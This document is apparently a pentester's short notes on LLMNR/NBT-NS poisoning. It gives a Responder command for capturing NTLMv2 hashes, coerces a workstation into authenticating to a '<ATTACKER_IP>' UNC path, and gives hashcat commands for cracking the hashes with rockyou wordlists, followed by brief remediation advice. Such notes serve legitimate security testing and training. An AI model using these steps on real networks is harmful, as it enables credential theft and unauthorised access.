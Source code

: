 Link Local Multicast Name Resolution

best to run this first in the morning to see traffic or after lunch

LLMNR is used to identify hosts when DNS fails to do so.

Previously known as NBT-NS
NOTE: MAKE SURE ALL ARE ON on /etc/responder/Responder.conf
first section ^^^
Key flaw is that the services utilize a user's username and NTLMv2 hash when appropriately responded to.

`sudo responder -I eth0 -dwP`

get workstation to open UNC `\\<ATTACKER_IP>` in file browser

once you have has run:

ON HOST MACHINE NOT VM
`hashcat --help | grep <typeofhash>`
`hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt`
use rulesets -r OneRule
use -O on metal for optimization
rockyou2021 good list

Remediation:

Disable LLMNR in group policy
turn off mulicast name resolution

OR

require network access control
require strong user passwords